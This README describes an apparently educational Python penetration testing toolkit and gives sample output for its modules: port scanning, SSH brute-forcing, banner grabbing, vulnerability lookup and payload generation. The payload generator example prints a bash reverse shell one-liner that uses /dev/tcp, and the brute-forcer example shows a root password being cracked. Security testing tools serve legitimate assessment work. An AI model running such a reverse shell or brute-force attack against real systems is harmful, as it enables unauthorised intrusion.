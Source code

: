 
# **Penetration Testing Toolkit**

## **Overview**
The **Penetration Testing Toolkit** is a Python-based modular toolkit designed to assist in security assessments and penetration testing tasks. It features multiple modules, including port scanning, brute-forcing, banner grabbing, vulnerability scanning, and payload generation. Each module operates independently, and the toolkit provides a simple interface for easy usage.

---

## **Features**
1. **Port Scanner**: Scan a target for open ports.
2. **SSH Brute-Forcer**: Perform a brute-force attack on SSH services.
3. **Banner Grabber**: Retrieve service banners from specific ports.
4. **Vulnerability Scanner**: Check for known vulnerabilities in services.
5. **Payload Generator**: Generate test payloads for reverse shells and buffer overflows.
6. **Report Generation**: Save scan results and findings in a JSON file.

---

## **Installation**

### **Prerequisites**
- Python 3.8 or higher
- Pip (Python package manager)

### **Setup**
1. Clone the repository:
   ```bash
   git clone https://github.com/your-repository/PenTestToolkit.git
   cd PenTestToolkit
   ```

2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

---

## **Usage**

Run the main script to access all toolkit modules:
```bash
python main.py
```

### **Module Descriptions**
1. **Port Scanner**
   - Scans a target for open ports.
   - Example:
     ```bash
     Enter target IP: 192.168.1.1
     Open ports: [22, 80, 443]
     ```

2. **SSH Brute-Forcer**
   - Attempts to brute-force SSH credentials using a username and password list.
   - Example:
     ```bash
     Enter target IP: 192.168.1.1
     Enter username: root
     Enter path to password file: passwords.txt
     [+] Password found: admin123
     ```

3. **Banner Grabber**
   - Retrieves service banners from a specific port.
   - Example:
     ```bash
     Enter target IP: 192.168.1.1
     Enter port to grab banner: 80
     Banner: Apache/2.4.41
     ```

4. **Vulnerability Scanner**
   - Checks for known vulnerabilities in a specified service and version.
   - Example:
     ```bash
     Enter service: nginx
     Enter version: 1.18.0
     Vulnerabilities: ['CVE-2020-1234']
     ```

5. **Payload Generator**
   - Generates payloads for reverse shells or buffer overflow attacks.
   - Example:
     ```bash
     Enter payload type (reverse_shell/buffer_overflow): reverse_shell
     Generated payload: bash -i >& /dev/tcp/192.168.1.1/8080 0>&1
     ```

---

## **Report Generation**

All scan results are saved in a JSON file located in the `reports/` directory. The default file is `reports/scan_report.json`. The report structure includes:
- Module name
- Timestamp
- Scan results

---

## **Testing**

Each module has an associated test file in the `tests/` directory. Run the tests using `unittest`:
```bash
python -m unittest discover tests
```

---

## **Future Enhancements**
- Add GUI for user-friendly operation.
- Include support for additional protocols like FTP and HTTP.
- Implement a multi-threaded port scanner for faster performance.

---

## **Disclaimer**

This toolkit is for educational purposes only. Use it responsibly and only on systems you own or have explicit permission to test.
